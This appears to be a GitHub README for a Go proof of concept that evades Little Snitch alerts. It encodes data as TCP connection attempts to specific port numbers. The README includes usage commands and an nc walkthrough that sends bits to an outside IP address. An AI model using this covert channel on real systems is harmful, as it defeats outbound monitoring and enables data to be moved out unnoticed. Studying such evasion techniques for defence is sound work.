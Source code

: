 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

Stitch face, the little stitch mascot.

![Stitch Face, the Little Stitch mascot](https://i.ytimg.com/vi/Oq5u07Rs9Ac/maxresdefault.jpg)

## Demo

https://user-images.githubusercontent.com/4079939/139521096-1f6fdb8d-cf20-489a-820f-ecdb980fc289.mov

## Usage

### Setup

Make sure a recent version of GoLang is installed and set up (tested with 1.17.2). The usage instructions below
assume the current working directory is the root of this repository.

### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | go run ./main.go -- server
```


### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | go run ./main.go -- client <server ip address>
```


## How it works
Because Little Snitch only alerts when data is sent across the connection, we can avoid triggering an
alert by encoding data we want to transfer into other attributes of the TCP connection. There are several
attributes of a TCP connection that can be set by an unprivileged user, but the most straightforward is
the destination port number.

For sending data to the server we use ports 11101-11108 to represent the bit positions in a byte of data.
Opening a connection to ports 11101 would signify the least significant bit should be set and likewise
11108, the most significant byte. A connection to port 11100 is then opened when all the correct bits for
the current byte have been set on the server, signaling the server can print it to stdout and reinitialize
the current byte.

We can run through this manually by just running the server-side of the connection and using `nc` to
manually poke the bits.

```
go run ./main.go -- server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (LSB ordering) bits 1 and 7 are
set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100 to flush the byte
to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ go run main.go server
A
```

To send data in the other direction, it would be difficult to reach the client directly from the server as most
clients will be on a network using NAT to limit access to the client IP. So instead of poking the ports, we want
to set for data going the other way, we instead only open the ports that correspond to the set bits of the
current byte. The client can then iterate over all the ports, recording whether they were opened or closed. This
is a bit slower since the client has more ports overall to check and because the server and the client need to
remain in sync, the client can't start until the opened/closed ports are updated, and the server can't clear the
ports until the client has iterated over them.
